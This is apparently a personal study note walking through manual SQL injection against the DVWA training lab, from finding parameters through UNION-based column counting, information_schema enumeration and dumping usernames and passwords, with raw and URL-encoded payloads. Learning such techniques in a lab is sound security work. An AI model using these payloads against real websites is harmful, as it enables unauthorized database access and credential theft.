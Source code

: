 
It is essential to understand that any endpoint can be vulnerable to SQL injection attacks when proper data sanitization is not implemented or when user input is blindly trusted. SQL injection occurs when malicious SQL statements are inserted into user input, potentially leading to unauthorized access or manipulation of the database.

Here listed are the steps to find the sql injection vulnerability on a website:

### Step 1
***So our first step is to find the parameters that transport our data to the server***

$example$
consider a url:

`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#`

observe the part `/?id=1&Submit=Submit` don't you think these are the parameters that are transporting the data to the server? , if yes then our first step is done , find the parameters
and this is how the endpoint looks:
![[Pasted image 20230615162032.png]]

### Step 2
***Breaking the query***
we fuzz our parameters with the different types of input ranging from  basic characters to full fledged sql queries

why we doing this: is to get a confirmation that it is vulnerable o sql injection
we start by giving it a single quotation mark as a basic payload to confirm so:
`'` at this position: `/?id=1'`
like this: 
`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1'&Submit=Submit#` 

the error would come if the input isn't sanitized and in our case it looks like this:
![[Pasted image 20230615162718.png]]

these errors are very helpful for further process , as they sometimes tell us what query is running inside the back-end of the server 

### Step 3
***Joining the query***
Now we know that it is vulnerable we can actually go and try to now inject our payload to exfiltrate the data from the server on the webpage

 * Understanding the flow
 
	 we need to understand now in the back-end how the query is working and how to break it. We do that by looking at how our parameters are being sent , in the string format or in the other format
	
	[#] string format - 
	the string format type looks like this at backend:
	`Select attribute from users where id='$id';`
	so when we inject our payload we control the values inside the string we need to make sure to end the string so that our payload doesn't gets treated as a string but rather as another query to be executed , we can achieve this by adding a single quotation  to end the string example:
	`id=1' union all select * from users;--*`
	
	which on the url will look like this:
	`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1' union all select * from table;--*&Submit=Submit#`
	
	and at the back-end will look like this:
	`select attribute from users where id='1' union all select * from users;--`

	*I am displaying this url to you in raw format , encode this url to execute the query*
	
	NOTE: we used -- at the last of our query to comment out the rest of the query being processed by the server and end there only , if you're using sql where the comments are different try different characters

	[#] other format than integer - 
	let's say that the query is taking the integer format for the `id` parameter , it will look like this at the backend:
	`select attribute from users where id=$id`
	In that case we don't need to add the single quote to the payload to execute our query 
	like:
	`id=1 union select attribute from users;--`
	
	the url will look like this:
	`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1 union all select * from table;--*&Submit=Submit#`
	
	and at the backend like this:
	`select attribute from users where id='1' union all select * from users;--`

### Step 4
***Finding the numbers of columns***
 Finding the number of columns can be a tiring approach as it involves trial and error , we use the `order by` clause to do so:

*we insert the payload with the order by clause following a random number representing the column number to order by it to*

Till where we don't get the error we get the number of columns the table has 
like:
the payload will look like this:
`id=1 ' order by 3; #` since we had string based sql parameter and our comment was '#'
and when the table number exceeds the error is somewhat like this:
![[Pasted image 20230616141700.png]]
and if we get no error we increase the number from 3 to some other and if we get some error we decrease the number till we get no error , which will tell us exact number of column
the url looks like this encoded:
`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1+%27+order+by+2+%23&Submit=Submit#`
and this looks like this:
![[Pasted image 20230616141731.png]]

### Step 5
***Finding where our  data will be displayed***

Now since we we got the number of columns we are now ready to try our payload and test the website to check leakage of data
but the question comes where we will get our data displayed , we need to check this also:
we can do this via `union` clause and select by printing exact numbers of columns we found above:

the payload: `id=1 ' union select 1,2 #` 
in our case the comment was '#'
here we found there were 2 payloads . Also the response will show us where will the values be reflected like:
*normal*:
![[Pasted image 20230616140522.png]]

*injection*:
![[Pasted image 20230616140937.png]]

now we know that where the data will be reflected , so we can now start injecting the payloads

### Step 5
Payloads injection:
when we know the position and the function to execute we can get pretty serious information about the database like:
![[Pasted image 20230616141246.png]]
the version and the current user with the query:
`1 ' union select version(),user() #`

which in the url format looks like:
`http://192.168.29.153/DVWA/vulnerabilities/sqli/?id=1+%27+union+select+version%28%29%2Cuser%28%29+%23&Submit=Submit#`

If you don't know what these functions are you can refer to:
[[Finding sensitive-system info With SQL]]

Since we don't know the tables and columns we can start by getting the database name from information_schema , you can find this here for further info: [[Black Box Approach using information_schema]]
![[Pasted image 20230616141955.png]]

similarly:
we get the tables:
![[Pasted image 20230616142144.png]]
`users` and `guestbook`

we then dump all the columns:
`1 '  union select column_name, data_type FROM information_schema.columns WHERE table_schema = 'dvwa'   AND table_name = 'users' #`
![[Pasted image 20230616142428.png]]

Thus now we can fetch any data from the above info :
`1 ' union select first_name,password from dvwa.users #`

![[Pasted image 20230616142655.png]]